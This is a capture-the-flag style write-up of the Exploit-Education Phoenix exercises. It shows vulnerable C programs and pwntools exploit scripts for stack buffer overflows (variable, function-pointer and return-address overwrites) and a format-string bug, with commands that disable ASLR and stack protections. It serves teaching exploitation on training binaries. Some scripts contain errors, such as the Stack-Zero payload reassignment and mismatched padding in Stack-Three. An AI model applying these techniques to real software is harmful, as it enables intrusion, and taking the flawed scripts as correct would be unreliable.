# Exploit-Education (Phoenix) Write UP

## Intro
Simple challenges that help beginners to learn how to hacc.

### Setup
I did these challenges by copying and pasting the source code and compiling it myself rather than utilizing the shell that they provided.
When compiling, make sure to disable PIE and Canary if you don't want to be dealing with those. E.g.:
`gcc stack-four.c -o stack-four -fno-stack-protector -no-pie`
Also make sure to disable ASLR:
`sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'`
Check whether ASLR is defaulted 1 or 2 through:
`cat /proc/sys/kernel/randomize_va_space'`
To re-enable: `sudo bash -c 'echo *ASLR level* > /proc/sys/kernel/randomize_va_space'`

Also, I had to change `LEVELNAME` to just a normal string.

### Tools
* GDB (GEF plugin)
* `pwntools` - I highly recommend looking through the tutorial and the docs on `pwntools`
* Disassembler (Cutter)

---

## Stack
---
### Stack-Zero
Stack-Zero teaches us that it's possible to change variables by overflowing the buffer with the right amount of bytes if an exploitable function (e.g. `gets()`) is used.

Source Code:
```c
#define BANNER "Welcome to Stack-Zero, brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

We can see that this program uses the `gets()` function. The description of `gets()` can be read through `man 3 gets`:

<!-- getsfunctiondescription image -->


This highlights that the exploitable vulnerability lies within the `gets()` function. We can see that `gets()` will keep taking input until an EOF or newline is fed through. This means that we can keep feeding bytes through past the original number of bytes that were intended for the size of the buffer.
These bytes will leak over to other segments of the stack which could be detrimental to the program.

Through `disas main`, we can see that the compiler did some stuff:

<!-- disassembler and gdb pic, add stack drawing -->


We can get a better picture through looking at it in a disassembler:

<!-- disassembler pic -->


What we really need to pay attention to are `var char *s @ rbp-0x50` and `var int64_t var_10h @ rbp-0x10`. If we study the disassembly carefully we can see that these are the `buffer` and `changeme` variables, respectively.

If we display the stack build up in an image:

<!-- stack jpg -->


We can see that `buffer` is 64 bytes and immediately before that is `changeme`.
This means that if we feed the buffer 65 characters we can solve this challenge.

Final Exploit:
```python
from pwn import * # import pwn library

# attach process
p = process('./stack-zero') # vuln is the executable file name

# variables
BUF_LEN = 64 # length of buffer

# create payload
payload = b'A'*BUF_LEN # create padding of BUF_LEN bytes
payload = b'BBBBBBBB' # this can be whatever garbage bytes

# receive until bytes is met
p.recvuntil(b'Welcome to Stack-Zero, brought to you by https://exploit.education') # receive everything until this line

# send payload
p.sendline(payload) # send payload as one line

# to get a shell
p.interactive()
```

Great success!

<!-- stackzerosuccess -->


---
### Stack-One
Stack-One is almost identical to Stack-Zero. The catch, however, is that we have to alter the `changeme` to a specific variable. This forces us to calculate the exact number of bytes that are required to reach `changeme`.
Furthermore, we are obligated to provide a command line argument, rather than it prompting us for an input.

```c
#define BANNER "Welcome to Stack-One, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

Through GDB `disas main` and our disassembler, we can see that the stack is built in a similar fashion as Stack-Zero.

<!-- stackonedisasmain -->


However, if we see in the next image, we can see that `var_10h` is being compared with a value:

<!-- stackonecutter -->


More specifically, it is being compared with value `0x496c5962`.

So, to sum up, we need to have a padding of 64 bytes and then have `changeme` equal `0x496c5962`.
Fortunately, `pwntools` has a great way of helping us convert `0x496c5962` into bytes in little-endian format (x86 and x64 architectures are in little-endian format) and allow for us to feed it through as an command line argument.

Final Exploit:
```python
from pwn import * # import everything from pwn

# variables
BUF_LEN = 64 # buffer size
win = pack(0x496c5962, None, 'little', True) # 0x496c5962 in little endian is bYlI

# payload
payload = b'A'*BUF_LEN # our padding
payload += win # changeme

# attach process with command line arguments
p = process(argv=['./stack-one', payload])

# to get a shell
p.interactive()
```

Great success!

<!-- stackonesuccess -->


---
### Stack-Two
Stack-Two is incredibly similar to Stack-Zero and Stack-One, however, this has to be done through environmental variables.

Source Code:
```c
#define BANNER "Welcome to Stack-Two, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

Once again, through GDB and our disassembler we can get a rough idea of what our stack will look like:

<!-- stacktwodisasmain -->


<!-- stacktwocutter1 -->


We can see that the stack is built incredibly similar to Stack-Zero (the components we care about in this challenge, at least).
This time, however, `changeme` is being compared with `0xd0a090a`.

<!-- stacktwocutter2 -->


Again, `pwntools` helps us with environmental variables too.

Final Exploit:
```python
from pwn import * # import everything from pwn

# variables
BUF_LEN = 64 # 64 bytes to reach changeme
win = pack(0x0d0a090a, None, 'little', True) # 0x0d0a090a in little endian is \n\t\n\r

# payload
payload = b'A'*BUF_LEN # padding till changeme
payload += win # changeme

# attach a process
p = process(argv=['./stack-two'], env=dict(ExploitEducation=payload)) # process and set environmental variable ExploitEducation equal our payload

# get a shell
p.interactive()
```

Great success!

<!-- stacktwosuccess -->


---
### Stack-Three
Stack-Three requires us to overwrite a function pointer to execute the function `complete_level()`.

Source code:
```c

#define BANNER "Welcome to Stack-Three, brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished Stack-Three :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

This challenge is quite basic - more basic than the previous two (I would say).
We can see that the program uses `gets()` and a variable that is a function pointer. If we override the function pointer (currently `NULL`) with the address of `complete_level()`, we can successfully complete this level.
First, we need to see where `locals.fp` is located on the stack.

<!-- stackthreecutter1 -->
[stackthreecutter1](../Images/PhoenixExploit/stackthreecutter1.JPG)

As exhibited in the image above, we can see that `var_10h` is our `locals.fp` and `char *s` is the `buffer`.

<!-- stackthreecutter2 -->
[stackthreecutter2](../Images/PhoenixExploit/stackthreecutter2.JPG)

And as displayed in the next image, we can see that the address for `complete_level()` is `0x004011b6`.
Once again, we can find the address of `complete_level()` manually through other methods, e.g., `x complete_level`, `disas complete_level`, etc.
However, in the exploit, I will be using `pwntools` to automatically give us the address of `complete_level()`.

Back to calculating how much padding we need - we can see that `var_10h`(`locals.fp`) begins at `rbp - 0x10` and `char *s`(`buffer`) begins at `rbp - 0x50`.
This means that we need to feed `64 bytes` through the buffer to reach `locals.fp`, and then provide the address of `complete_level()` to finish the challenge.

Final Exploit:
```python
from pwn import *

# create a proces with ELF file
p = process('./vuln')
e = ELF('./vuln')

# variables
BUF_LEN = 72 # bytes to $rip
complete_level = e.symbols['complete_level'] # address of complete_level

# payload
payload = b'A'*BUF_LEN
payload += p64(complete_level) # address of complete_level in little endian

# receive
p.recvuntil(b'Welcome to Stack-Three, brought to you by https://exploit.education')

# send payload
p.sendline(payload)

# do this
p.interactive()
```

Great success!
<!-- stackthreesuccess -->
[stackthreesuccess](../Images/PhoenixExploit/stackthreesuccess.JPG)

---
### Stack-Four
Stack-Four introduces buffer overflow to overwrite the instruction pointer.

Source code:
```c
#define BANNER "Welcome to Stack-Four, brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished Stack-Four :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

In this challenge, `main()` calls another function called `start_level()` to do stuff (get input and print), as opposed to `main()` doing it like in the challenges before.
Because of this, we have to tackle it differently (ever so slightly).
Looking at the `disas start_level` and the disassembler we can get a rough image of what the stack might look like -

<!-- stackfourdisasstartlevel -->
[stackfourdisasstartlevel](../Images/PhoenixExploit/stackfourdisasstartlevel.JPG)

<!-- stackfourcutter -->
[stackfourcutter](../Images/PhoenixExploit/stackfourcutter.JPG)

A rough sketch of the stack would look something like this:

<!-- stackfourstack -->
[stackfourstack](../Images/PhoenixExploit/stackfourstack.JPG)

Now, we can see that the buffer is `0x50` (80 bytes) long.
An important thing to remember is that, because we're working with 64-bit architecture, everything will be 64-bits long (8 bytes) - including registers, memory locations, etc.
Thus, the `old $rbp` section will be 8 bytes long.
This would force us to make a padding that is 88 bytes in length (80 + 8 = 88 ;) ).

However, one more thing. We still need to overwrite `$rip` (instruction pointer, return address) with a return address that is going to be useful.
Normally, `$rip` would hold the address of the function that called `start_level()`(or the current function) so that when everything is broken down and `$rsp` (stack pointer) reaches it, it would have an address to return to.
But as hackers, we can exploit this to return to a function that is never even called in the program.

For our final preparation step, we need to find out the address of `complete_level()`, because in this case, `complete_level()` is our win condition.
This can be done through a disassembler, other methods such as using GDB: `disas complete_level`, `x complete_level`, etc., or we could even get the address through `pwntools`.

An example:

<!-- stackfourdisascompletelevel -->
[stackfourdisascompletelevel](../Images/PhoenixExploit/stackfourdisascompletelevel.JPG)

Final Exploit:
```python
from pwn import *

p = process('./vuln')

# variables
BUF_RIP = 88 # bytes from start of buffer to $rip
complete_level = 0x401196 # address of complete_level

# payload
payload = b'A'*BUF_RIP # padding to $rip
payload += p64(complete_level) # address of complete_level in $rip

# receive
p.recvuntil(b'Welcome to Stack-Four, brought to you by https://exploit.education')

# send payload
p.sendline(payload)

# do this
p.interactive()
```

or

```python
from pwn import *

p = process('./vuln')
e = ELF('./vuln')

# variables
BUF_RIP = 88 # bytes from start of buffer to $rip
complete_level = e.symbols['complete_level'] # address of complete_level

# payload
payload = b'A'*BUF_RIP # padding to $rip
payload += p64(complete_level) # address of complete_level in $rip
```

---
### Format-Zero
Use Format String Vulnerability to change the value of `changeme`.

Source Code:
```c
#define BANNER "Welcome to Format-Zero, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```


Final Exploit:
```python
from pwn import *

# create a process with ELF file
p = process('./vuln')

# variable
format_string = b'%x'

# payload
payload = format_string*5

# the usual stuff
p.recvuntil(b'Welcome to Format-Zero, brought to you by https://exploit.education')

p.sendline(payload)

p.interactive()
```
